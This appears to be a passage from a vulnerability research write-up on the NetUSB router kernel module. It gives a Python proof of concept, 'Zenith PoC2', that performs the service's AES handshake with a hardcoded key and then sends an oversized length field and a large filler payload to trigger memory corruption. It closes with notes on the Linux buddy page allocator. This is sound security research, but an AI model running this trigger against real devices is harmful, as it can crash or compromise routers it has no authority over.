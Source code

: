 ```py
le32 = lambda i: struct.pack('<I', i)
 
netusb_port = 20005
 
def send_handshake(s, aes_ctx):
  # Version
  s.send(b'\x56\x04')
  # Send random data
  s.send(aes_ctx.encrypt(b'a' * 16))
  _ = s.recv(16)
  # Receive & send back the random numbers.
  challenge = s.recv(16)
  s.send(aes_ctx.encrypt(challenge))
 
def send_bus_name(s, name):
  length = len(name)
  assert length - 1 < 63
  s.send(le32(length))
  b = name
  if type(name) == str:
    b = bytes(name, 'ascii')
  s.send(b)
 
def create_connection(target, port, name):
  second_aes_k = bytes.fromhex('5c130b59d26242649ed488382d5eaecc')
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target, port))
  aes_ctx = AES.new(second_aes_k, AES.MODE_ECB)
  send_handshake(s, aes_ctx)
  send_bus_name(s, name)
  return s, aes_ctx
 
def main():
  parser = argparse.ArgumentParser('Zenith PoC2')
  parser.add_argument('--target', required = True)
  args = parser.parse_args()
  s, _ = create_connection(args.target, netusb_port, 'PoC2')
  s.send(le8(0xff))
  s.send(le8(0x21))
  s.send(le32(0xff_ff_ff_ff))
  p = b'\xab' * (0x1_000 * 100)
  s.send(p)
```
 
Another interesting detail was that the allocation function is `mallocPageBuf` which I didn't know about. After looking into its implementation, it eventually calls into `_get_free_pages` which is part of the Linux kernel. `_get_free_pages` allocates 2**n number of pages, and is implemented using what is called, a Binary Buddy Allocator. I wasn't familiar with that kind of allocator, and ended-up kind of fascinated by it. You can read about it in [Chapter 6: Physical Page Allocation](https://www.kernel.org/doc/gorman/html/understand/understand009.html) if you want to know more.
 